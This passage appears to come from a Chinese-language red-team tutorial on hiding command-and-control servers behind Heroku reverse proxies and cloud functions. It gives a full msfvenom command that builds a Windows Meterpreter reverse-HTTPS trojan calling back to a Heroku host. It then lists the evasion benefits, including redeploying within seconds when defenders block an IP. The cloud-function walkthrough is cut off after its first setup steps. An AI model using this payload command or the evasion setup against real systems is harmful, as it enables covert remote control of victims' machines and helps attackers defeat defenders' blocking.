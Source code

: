 使用命令生成木马
msfvenom -p windows/x64/meterpreter_reverse_https LHOST=nancicdn.herokuapp.com LPORT=443 -f exe -o payload.exe
然后将生成的木马上传至虚拟机并执行。

![img](https://p0.ssl.qhimg.com/t0168b3c0274b952f93.png)

  **执行后发现在metasploit成功上线。**

可以看到session的链接地址为heroku中转服务器地址，而且不同的heroku部署其连接的IP是不相同的。

  **如下图：
Target 1**

![img](https://p4.ssl.qhimg.com/t019344d0aff6b38cac.png)

Target 2

![img](https://p2.ssl.qhimg.com/t01baea8271871c8e13.png)

### 总结

heroku隐藏C2从技术原理上看非常简单,使用heroku服务部署nginx反向代理服务,payload连接heroku的nginx,nginx将流量转发到C2。
具体优势如下:
只需要注册heroku免费账号即可
无需注册或购买域名
自带可信的SSL证书(heroku域名自带证书)
如果IP地址被封锁,可删除原有heroku app重新部署heroku app(大约需要30s),与防守人员持续对抗
操作步骤简单

 

## 云函数

这个技术最先是在今年的3月份国外提出的，他们利用 azure 对 C2 进行隐藏，国内也有相对应的 云函数厂商，于是我们就尝试使用云函数对我们的 C2 服务器进行隐藏。

### 配置过程

点击新建云函数，选择创建方式—自定义创建，函数名称自定义或者默认都可以，运行环境选择python3.6，当然也有师傅去用其他语言版本去写但是原理都是一样的，地域随意即可。

![img](https://p4.ssl.qhimg.com/t01a7d70fafe09bb90d.png)

点击完成，我们先不编辑云函数代码。

![img](https://p0.ssl.qhimg.com/t018ef7221d37cdf571.png)

创建触发器，具体配置如上图，我们使用API网关来进行触发函数。

![img](https://p0.ssl.qhimg.com/t01f7f93590344ada6c.png)

![img](https://p2.ssl.qhimg.com/t01438523ad79d8c36b.png)

![img](https://p0.ssl.qhimg.com/t0199a2b1811618fef2.png)
